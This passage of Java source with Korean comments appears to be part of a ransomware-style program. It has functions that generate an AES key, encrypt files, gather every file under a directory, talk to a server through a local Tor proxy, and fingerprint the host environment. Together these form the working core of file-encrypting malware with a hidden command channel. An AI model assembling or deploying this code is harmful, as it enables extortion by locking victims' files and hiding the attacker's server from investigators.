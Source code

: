 ```java
        }
        return hexString.toString();
    }

    // AES 키 생성
    public static SecretKey generateKey() throws Exception {
        KeyGenerator keyGen = KeyGenerator.getInstance("AES");
        keyGen.init(128, new SecureRandom());
        return keyGen.generateKey();
    }

    // 파일 암호화
    public static void encryptFile(File inputFile, File outputFile, SecretKey secretKey) throws Exception {
        Cipher cipher = Cipher.getInstance("AES");
        cipher.init(Cipher.ENCRYPT_MODE, secretKey);

        try (FileInputStream fis = new FileInputStream(inputFile);
             FileOutputStream fos = new FileOutputStream(outputFile)) {

            byte[] buffer = new byte[1024];
            int bytesRead;

            while ((bytesRead = fis.read(buffer)) != -1) {
                byte[] output = cipher.update(buffer, 0, bytesRead);
                if (output != null) fos.write(output);
            }

            byte[] outputBytes = cipher.doFinal();
            if (outputBytes != null) fos.write(outputBytes);
        }
    }

    // 디렉토리의 모든 파일 검색
    public static List<File> findFiles(String directory) throws IOException {
        return Files.walk(Paths.get(directory))
                .filter(Files::isRegularFile)
                .map(Path::toFile)
                .collect(Collectors.toList());
    }

    // Tor 네트워크 통신
    public static void communicateWithTorServer(String url) {
        try {
            HttpHost proxy = new HttpHost("127.0.0.1", 9050);
            CloseableHttpClient httpClient = HttpClients.custom()
                    .setProxy(proxy)
                    .build();

            HttpGet request = new HttpGet(url);
            CloseableHttpResponse response = httpClient.execute(request);

            System.out.println("Tor Response: " + response.getStatusLine());
        } catch (Exception e) {
            System.err.println("Tor Communication Failed: " + e.getMessage());
        }
    }

    // 환경 체크
    public static void checkEnvironment() {
        try {
            System.out.println("OS: " + System.getProperty("os.name"));
            System.out.println("Java Version: " + System.getProperty("java.version"));
```